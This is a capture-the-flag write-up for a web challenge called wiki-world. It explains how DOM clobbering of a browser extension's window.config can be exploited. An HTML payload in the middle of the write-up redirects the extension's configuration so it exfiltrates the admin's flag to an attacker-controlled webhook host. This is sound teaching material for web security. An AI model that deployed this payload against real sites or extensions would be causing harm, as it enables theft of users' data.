






# Description

Can you alpha test out our newest note-taking [website](https://wikiworld.cha.hackpack.club/)? (If you find anything, please report it to us using  `nc cha.hackpack.club 8702`)

Also unrelatedly, our website admin is really fond of the wiki-world extension, he uses it all the time, even on his work computer.

I should probably get him to stop using it tho, it hasn't been approved by IT yet.

Author: Sohom (Sodium#8285)

NOTE: we recommend you try to develop a exploit locally using the provided source code before attempting the exploit on the challenge servers. Feel free to contact the admins if you have a exploit that works locally, but not on the challenge servers.

# Exploit

For this challenge, we have provided the source code, which can be downloaded at the following link:

<https://drive.google.com/file/d/1H-wGeUFgk8jvBK3XO8NV55pzs1FEn7fy/view?usp=share_link>

The source code for the challenge reveals that the admin bot utilizes a custom web browser extension.





After reviewing the extension's source code above as shown in image above, we discovered that it retrieves its configuration from the window object. This vulnerability can be exploited using a technique called DOM clobbering, which is described in detail at the following URL:

[embed](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)

By utilizing this technique, we were able to change the value of window\.config and manipulate the behavior of the extension.

The following payload can be used to exploit this vulnerability:

```html
<a id=config><a id=config name=WIKI_REGEX href="BLOB:.*?(flag\\{.*?\\})"></a>
<a id=config><a id=config name=WIKIPEDIA_SERVER href="<https://webhoo.site>"></a>

```

This payload modifies the values of `config.WIKI_REGEX` and `config.WIKIPEDIA_SERVER` to match the flag and send it to the attacker's server.

Next, we return to the challenge web page and copy the payload into the text area, as shown in the image below:



We retrieve the URL and paste it into the bot server as shown in the following image:





After that, we can see the flag in our webhook server:


